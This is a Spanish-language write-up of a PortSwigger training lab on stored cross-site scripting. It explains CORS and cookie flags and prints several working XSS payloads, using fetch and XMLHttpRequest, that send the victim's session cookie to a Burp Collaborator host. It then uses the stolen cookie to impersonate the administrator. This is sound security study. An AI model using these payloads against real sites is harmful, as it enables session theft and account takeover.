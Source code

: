 ```yaml
---
title: "Exploiting cross-site scripting to steal cookies"
description: "Laboratorio de Portswigger sobre XSS"
date: 2025-01-18 12:25:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XSS
tags:
  - Portswigger Labs
  - XSS
  - Exploiting cross-site scripting to steal cookies
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una vulnerabilidad de `stored XSS` en la función de `comentarios del blog`. Un usuario `víctima` simulado ve todos los `comentarios` después de que se publiquen. Para `resolver` el `laboratorio`, debemos `explotar` la vulnerabilidad para `exfiltrar` la `cookie de sesión` de la víctima, luego usar esta `cookie` para `suplantar` a la víctima

---

## Guía de XSS

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de XSS` [https://justice-reaper.github.io/posts/XSS/](https://justice-reaper.github.io/posts/XSS/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XSS-Lab-22/image_1.png)

Si pulsamos sobre `View post` vemos que tenemos una `sección` en la que podemos hacer `comentarios`

![](/assets/img/XSS-Lab-22/image_2.png)

Al hacer un `comentario` nos mete el `input` en unas `etiquetas <p></p>`

![](/assets/img/XSS-Lab-22/image_3.png)

Sin embargo, si intentamos `inyectar` algo entre `etiquetas <h1></h1>` vemos que nos `inyecta` las `etiquetas` con su `contenido` y deja las `<p></p>` vacías

![](/assets/img/XSS-Lab-22/image_4.png)

Hay diferentes opciones para `obtener` la `cookie`, podemos utilizar `fetch` con las opciones `CORS` o `no-cors` o usando el método `GET` o `POST`. Luego tenemos a `XMLHTTPRequest`, con el cual podemos hacer tanto peticiones `GET` como `POST`, pero no podemos especificar la opción `no-cors`, es decir, siempre se tendrá en cuenta el `CORS` [https://developer.mozilla.org/es/docs/Web/HTTP/CORS](https://developer.mozilla.org/es/docs/Web/HTTP/CORS)

El `CORS` es un mecanismo basado en `cabeceras HTTP` que permite a un `servidor` indicar cualquier `dominio`, `esquema` o `puerto` con un `origen distinto` del suyo desde el que un navegador debería permitir la carga de recursos. `CORS` también se basa en un mecanismo por el cual los `navegadores` realizan una `solicitud` de `verificación previa` al `servidor` que aloja el `CORS`, con el fin de comprobar que el `servidor` permitirá la solicitud real. En esa comprobación previa, el navegador envía `cabeceras` que indican el `método HTTP` y las `cabeceras` que se `utilizarán` en la `solicitud real`

Un ejemplo de `CORS` sería el código `JavaScript` del `front-end`, desde `http://domain-a.com` utiliza `XMLHTTPRequest` para realizar una solicitud a `http://domain-b.com/data.json`

Por razones de `seguridad`, los navegadores restringen las `peticiones HTTP` de origen cruzado iniciadas desde `scripts`. Por ejemplo, `XMLHTTPRequest` y la API `Fetch` siguen la `Política Same-origin`. Esto significa que una `aplicación web` que utilice esas `API` solo puede solicitar `recursos` del mismo `origen` desde el que se cargó la aplicación, a menos que la respuesta de otros `orígenes` incluya las `cabeceras CORS` adecuadas

En esta primera petición estamos mandando una `petición` con el método `POST` y es una petición `asíncrona`, es decir, las operaciones pueden `ejecutarse` en `paralelo` o en `segundo plano`. El programa `no espera` a que una `tarea termine` para continuar con la siguiente, lo que permite que se realicen `múltiples operaciones simultáneamente`

```
<script>
    var request = new XMLHttpRequest();
    request.open('POST', 'http://lf4spwr5be5vcxtn56uquhp4yv4qsgg5.oastify.com', true);
    request.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    var data = 'cookie=' + encodeURIComponent(document.cookie);
    request.send(data);
</script>
```

En este caso la `petición` se `realiza` por el método `GET` y es `síncrona`, lo cual quiere decir que el `programa` se `bloquea` hasta que esa `tarea` se `complete`, lo que `significa` que `no puede hacer nada más mientras espera`

```
<script>
    var request = new XMLHttpRequest();
    request.open('GET', 'http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com/cookie=' + encodeURIComponent(document.cookie), false);
    request.send();
</script>
```

Con `fetch`, a diferencia de `XMLHTTPRequest` podemos `especificar` también si usamos `CORS` o no. El `modo no-cors` tiene la `ventaja` de poder `enviar` una `solicitud` a un `servidor` que no esté `configurado` `para permitir solicitudes de otros orígenes` (por ejemplo, un `servidor` en un `dominio diferente`) y también tiene una `desventaja`, `restringe` el `acceso` a la `respuesta`, por lo cual `no podremos leer ni manipular los datos que el servidor envíe de vuelta`

```
<script>
    fetch('http://gk4nurw0g9aqhsyia1zlzcuz3q9lxcl1.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body: encodeURIComponent(document.cookie)
    });
</script>
```

En este caso estamos usando el `método GET` y siguiendo las `convenciones` de `CORS`, ya que es el `modo por defecto`. En este caso tenemos `dos formas` de `transmitir` la `petición` usando el `método GET`, si queremos especificar que `no queremos usar CORS` lo hacemos de esta forma

```
<script>
  fetch("http://0vw75b7krtlasc92lla5aw5jeaka8cw1.oastify.com?cookie=" + encodeURIComponent(document.cookie), {
    method: 'GET',
    mode: 'no-cors'
  });
</script>
```

Si `no necesitamos especificar un modo` podemos `usar` esta otra forma que `seguirá` las `directivas CORS por defecto`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Es importante `realizar` las `peticiones` a un `servidor` mediante `HTTPS` y no `HTTP` en este caso. Si usamos este `payload` la `petición` será `bloqueada` y no nos llegará nada a nuestro `servidor` de `Burpsuite Collaborator`

```
<script>
    fetch('http://vut2466fqok5r78xkg909r4ed5j77xvm.oastify.com?cookie=' + encodeURIComponent(document.cookie));
</script>
```

Si nos `abrimos` el `inspector` de `Chrome` y vemos que la `flag Secure` está seteada en la `cookie`, esta flag asegura que la `cookie` solo se enviará a través de conexiones `seguras` (`HTTPS`). Es una `medida de seguridad` para `evitar` que las `cookies` sean `transmitidas` a través de `conexiones no seguras` (`HTTP`), donde podrían ser `interceptadas` por un `atacante`. A pesar de tener esta `flag`, seguimos pudiendo obtener esta `cookie` mediante `XSS` debido a que la `flag HttpOnly no está seteada`. Esta `flag` se encarga de impedir que la `cookie` sea `accesible` a través de `JavaScript`. Si una `cookie` tiene ambas flags (`HttpOnly` y `Secure`), no podremos acceder a ella a través de `JavaScript` aunque se transmita solo por `HTTPS` y tendremos que buscar `formas alternativas`

![](/assets/img/XSS-Lab-22/image_5.png)

Si nos `abrimos` la `consola` de `desarrollador` vemos como la `petición` ha sido `bloqueada` por no ser una `petición` a un `servidor` que soporte `HTTPS`. El error `Mixed Content`, ocurre cuando una `página web cargada a través de HTTPS` intenta hacer una `solicitud` a un `recurso a través de HTTP`. Esto es considerado `inseguro` y, por lo tanto, el `navegador bloquea la solicitud` para `proteger` la `seguridad` y la `privacidad` de la `web`

![](/assets/img/XSS-Lab-22/image_6.png)

Para `resolver` el `laboratorio` debemos irnos a `Burpsuite Collaborator`, pulsar en `copy to clipboard`, `sustituir` este `subdominio` en alguno de los `cuatro tipos de payloads` explicados anteriormente y `enviarlo a través de un comentario`

![](/assets/img/XSS-Lab-22/image_7.png)

Como hay un `usuario revisando nuestro comentarios`, en el momento en el que `entre al post donde se encuentra publicado nuestro comentario` nos mandará a `Burpsuite Collaborator` sus `cookies`

![](/assets/img/XSS-Lab-22/image_8.png)

Teniendo las `cookies` del `usuario administrador`, nos debemos ir al `navegador`, pulsar `Ctrl + Shift + i` para que nos abra el `inspector` de `Chrome`, `sustituir` la `cookie` y `refrescar` la `web` pulsando `F5`

![](/assets/img/XSS-Lab-22/image_9.png)

Si pulsamos en `My account` vemos que nos hemos `convertido` en el usuario `administrator`

![](/assets/img/XSS-Lab-22/image_10.png)
